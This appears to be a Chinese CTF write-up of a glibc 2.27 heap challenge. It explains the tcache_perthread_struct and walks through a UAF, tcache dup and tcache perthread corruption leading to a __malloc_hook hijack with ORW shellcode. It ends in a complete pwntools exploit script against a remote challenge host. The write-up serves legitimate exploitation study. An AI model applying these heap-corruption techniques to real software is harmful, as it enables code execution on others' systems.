## 总结&&启发：

### 总结：

通过这道对于tcache机制有了一定的认识。

tcache_perthread_struct结构体是用来管理tcache链表的，它的源码如下：

```c
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
# define TCACHE_MAX_BINS		64
```

这个结构体中有两个成员变量，一个是64字节的counts数组。该数组的每个元素都各自对应了64个tcache链表其中一条上chunk的数量(最大为7)。另一个成员变量是一个结构体指针数组，该数组的大小为64*8字节，该数组存放的是每条tcache链表的头指针。

而这个结构体会在第一次用户分配堆内存空间之前，会被申请出来。其大小为0x10+0x40+0x40*8=0x250。


如果我们能将这个tcache_perthread_struct结构体申请出来并进行编辑，那就可以达到任意地址申请(直接凭空在结构体指针数组中写入任意地址)，又或者我们篡改count的值，让原本一个堆地址对应的count是1，我们将其修改为7，这样再次将其释放掉，就可以让它进入unsorted bin中了。
### 启发：

> 通过这道题，也让我受到了一些启发，本题是可以泄露出堆地址，从而将tcache_perthread_struct申请出来，但是我发现这里可以利用UAF打一个tcache dup，然后爆破一比特位，也可以将tcache_perthread_struct申请出来。然后对其进行编辑，从而达到任意地址申请，又或者更改tcache链表的counts。最后打io_leak，也可以泄露出libc地址，而这样就不需要存在泄露函数了。通过查阅资料，发现这位师傅在2019年就提出了这种攻击
>
> [初探tcache struct攻击 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6828#toc-0)

## 保护策略：




可以看到保护全开，并且开了沙箱禁用了execve，那就考虑orw。

## 程序分析：

### delete函数：

通过分析下面的delete函数，发现该函数存在UAF漏洞，但是free指定堆块后，会把该堆块的size位给置空。且该函数只能执行三次。




### add函数：

通过分析add函数中(如下图)，发现我们最大只能申请0x100的堆块，并且因为free掉堆块后并不会被置空指针再根据add函数这边的限制，所以add函数只能执行8次。




### edit函数：

因为edit函数中的read是根据存储在bss段上的size来决定输入的字节数的。而delete函数后会将size置空，这里要注意一下。




### show函数：

这就是个常规的show函数，打印堆块里的数据。




### init函数：

初始化函数中不仅开了沙箱，还映射到0x66660000了一段可读可写可执行的内存。




## 利用思路：

### 泄露堆地址，做一个tcache dup

因为是2.27的libc，存在UAF我们就可以直接打tcache dup。因为沙箱禁用了execve，所以我们采用orw，将orw的shellcode写在0x66660000，最后将0x66660000这个地址写到malloc_hook即可。

这题的问题就是虽然存在show函数，但是我们add函数执行的次数有限，同时无法申请大于0x100的堆块。因此正常情况下我们的堆块被释放后进不去unsorted bin中，也就是拿不到libc地址(但是我们可以拿到堆地址)。而且delete函数的次数有限，我们不能无限制的利用tcache dup。

因此这道题采用的攻击手法为tcache perthread corruption

首先我们先利用UAF配合show函数泄露下堆地址，接着做一个tcache dup。此时的效果如下：




此时的exp为：

```py
add(0x100)
delete(0)
delete(0)
show(0)
p.recvuntil('content: ')
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
```

### tcache perthread corruption

由于我们有了堆地址，那我们就打一个tcache poisoning将tcache_perthread_structshe申请出来，然后我们来将0x66660000这个地址伪造为一个tcache的链表头（顺便修改下对应count），这样malloc对应的字节就能把0x66660000这个地址给申请出来了，顺便再将有double free的那条tcache链的count改成7，这样再delete一次，堆块就可以进入unsorted bin中了。

这步的exp如下：

```py
add(0x100)
edit(1,p64(target_addr))
add(0x100)
add(0x100)
edit(3,p64(0)+p64(0x251)+p64(0x0000000000000000)+p64(0x0700000000000001)+p64(0)*14+p64(0x66660000)+p64(0)*6+p64(heap_addr))
```

此时的bins情况如下图：




### 泄露libc地址

接着我们将0x66660000给申请出来写入orw的shellcode。再释放掉一次位于counts为7那条tcache链的堆块(在这之前先申请一个小堆块，来防止该堆块释放后与top chunk合并)，这样该堆块就进入了unsorted bin中。然后执行show函数，我们就拿到了libc地址。

效果如下：




这部分的exp为：

```py
add(0x90)
edit(4,shellcode_store('orw_64'))
add(0x10)#prevent chunk
delete(1)
show(2)
p.recvuntil('content: ')
leak_libc=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('leak_libc')
libc_base=leak_libc-0x3ebca0
malloc_hook=libc_base+libc.symbols['__malloc_hook']
log_addr('libc_base')
```

### tcache perthread corruption，劫持malloc_hook

此时我们拿到了libc地址，如果常规方法打tcache poisoning的话，先edit修改下tcachebin中的fd指针，然后需要add两次才能将malloc_hook申请出来，然后修改了malloc_hook后，还需要最后再add一次才能触发shellcode，但事实上这道题我们只能执行add函数8次，而上述所有操作用到了9次add函数，因此这个方法不行。所以我们采用的策略是再编辑一次tcache_perthread_struct结构体，直接伪造出malloc_hook的地址在tcache bin中，因为malloc_hook被伪造到了链表头的位置，所以我们只需要一次add函数就能将其申请出来了，最后编辑malloc_hook写入0x66660000这个地址，我们再次执行add函数时，就可以执行我们的shellcode将flag读出来了。

下图是将malloc_hook写到tcache链表头的位置。




这部分exp为：

```py
edit(3,p64(0)+p64(0x251)+p64(0x0000000000000000)+p64(0x0700000000000001)+p64(0)*14+p64(malloc_hook))
debug(p,'pie',d_d,d_a,d_s,d_e,0xf44)
add(0x90)
edit(6,p64(0x66660000))
add(0x40)
```


最终的exp如下：

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

## EXP:

```py
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',27132)
context.log_level='debug'
d_d=0x11b7
d_a=0x1193
d_e=0x11ab
d_s=0x119f

def add(size):
    p.sendlineafter('Your Choice: ',str(1))
    p.sendlineafter("size: ",str(size))

    
def edit(id,content):
    p.sendlineafter('Your Choice: ',str(3))
    p.sendlineafter('id: ',str(id))
    p.sendafter('content: ',content)

def delete(id):
    p.sendlineafter('Your Choice: ',str(4))
    p.sendlineafter('id: ',str(id))
    
def show(id):
    p.sendlineafter('Your Choice: ',str(2))
    p.sendlineafter('id: ',str(id))    

add(0x100)

delete(0)

delete(0)
show(0)
p.recvuntil('content: ')
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('heap_addr')
target_addr=heap_addr-0x260

add(0x100)

edit(1,p64(target_addr))
# edit(1,p64(0x66660000))
add(0x100)
add(0x100)
  
edit(3,p64(0)+p64(0x251)+p64(0x0000000000000000)+p64(0x0700000000000001)+p64(0)*14+p64(0x66660000)+p64(0)*6+p64(heap_addr))

add(0x90)
edit(4,shellcode_store('orw_64'))

add(0x10)#prevent chunk
delete(1)
show(2)
p.recvuntil('content: ')
leak_libc=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('leak_libc')
libc_base=leak_libc-0x3ebca0
malloc_hook=libc_base+libc.symbols['__malloc_hook']
log_addr('libc_base')

edit(3,p64(0)+p64(0x251)+p64(0x0000000000000000)+p64(0x0700000000000001)+p64(0)*14+p64(malloc_hook))
#debug(p,'pie',d_d,d_a,d_s,d_e,0xf44)
add(0x90)
edit(6,p64(0x66660000))
add(0x40)
p.interactive()
```

